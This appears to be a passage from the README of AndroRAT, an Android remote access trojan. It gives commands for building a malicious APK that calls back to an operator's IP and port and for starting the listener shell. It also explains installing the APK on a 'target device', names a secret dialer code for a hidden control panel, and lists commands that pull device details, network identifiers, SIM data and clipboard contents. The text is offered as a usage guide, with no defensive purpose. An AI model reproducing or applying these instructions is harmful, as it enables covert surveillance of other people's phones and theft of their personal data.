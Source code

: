 #### 🏠 **Local Network with Icon**
```bash
# Build APK for local network with visible icon
python androRAT.py --build --icon -i 192.168.1.100 -p 8000 -o local.apk

# Start listener on separate terminal
python androRAT.py --shell -i 0.0.0.0 -p 8000
```

---

## 📖 **Usage Guide**

### 📱 **APK Installation**

1. **Transfer APK** to target device via USB, email, or cloud storage
2. **Enable Unknown Sources** in Android Settings > Security
3. **Install** the APK file
4. **Launch** the app (if using --icon flag)
5. **Grant permissions** when prompted

### 🎯 **Control Panel Access**

Dial the secret code on the target device:
```
*#*#1337#*#*
```

**Available Options:**
- 🔄 **Restart Activity**: Reinitialize the service
- 🗑️ **Uninstall**: Remove the application
- 🔧 **Settings**: Configure application settings
- 📊 **Status**: View connection status

### 🖥️ **Server Operation**

Once a device connects, you'll see:
```
[SUCCESS] Got connection from 192.168.1.100:45678
[INFO] Device: Samsung Galaxy S21
[INFO] Android Version: 12.0
[INFO] Connection established successfully
```

You can then use the interactive shell to control the device.

---

## 🎮 **Command Reference**

### 📊 **Information Commands**
```bash
deviceInfo          # Get comprehensive device details
getIP              # Get device IP address and network info
getMACAddress      # Get MAC address and network interfaces
getSimDetails      # Get SIM card and carrier information
getClipData        # Get current clipboard content
```
